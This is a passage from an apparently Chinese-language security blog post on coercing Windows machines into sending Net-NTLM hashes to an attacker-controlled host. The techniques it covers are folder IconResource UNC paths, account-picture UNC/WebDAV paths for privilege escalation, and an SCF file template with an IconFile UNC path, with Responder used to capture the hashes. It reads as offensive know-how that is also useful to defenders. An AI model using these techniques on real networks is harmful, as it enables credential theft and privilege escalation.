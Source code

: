 
![](https://img-blog.csdnimg.cn/img_convert/ea1d4edc5b6b093b6f79f7342e2962dd.png)



将IconResource替换为攻击者的UNC路径



![](https://img-blog.csdnimg.cn/img_convert/9a7b1abdd7f4b8d1c3ccad38da3466a9.png)



只要有人访问了test文件夹，目标主机就会去请求指定UNC的图标资源，于是该主机会将当前用户的Net-NTLM Hash发送给指定的机器，我们在该机器上使用Responder监听，就能接收到目标机器发来的Net-NTLM Hash了。



![](https://img-blog.csdnimg.cn/img_convert/c4f6955e7c347b214e20ec0bc081285f.png)



**用户头像**



该功能适用于Windows 10、Windows Server 2016/2019。在更改账户图片处，输入指定的UNC路径



![](https://img-blog.csdnimg.cn/img_convert/805f5756c41182c657ebf30e7f582f1b.png)



我们就能抓到目标机器的当前用户的Net-NTLM Hash了。



![](https://img-blog.csdnimg.cn/img_convert/3b38d0d90eab0303f792d8c2ac127a9e.png)



如果是在域内，用普通用户的权限指定一个webadv地址的图片，如果普通用户验证图片通过，那么system用户(域内是机器用户)也会去访问172.16.100.180，并且携带凭据，我们就可以拿到机器用户的Net-NTLM Hash，这个可以用来提权



**scf文件**



只要一个文件夹内含有scf后缀的文件，由于scf文件包含了IconFile属性，所以explore.exe会尝试获取文件夹的图标。而IconFile是支持UNC路径的，所以当打开文件夹的时候，目标主机就会去请求指定UNC的图标资源，于是该主机会将当前用户的NTLM v2 hash发送给指定的机器，我们在该机器上使用Responder监听，就能接收到目标机器发来的Net-NTLM Hash了。以下是scf后缀的文件的格式：



```
[Shell]      
Command=2      
IconFile=UNC路径      
[Taskbar]      
Command=ToggleDesktop
```



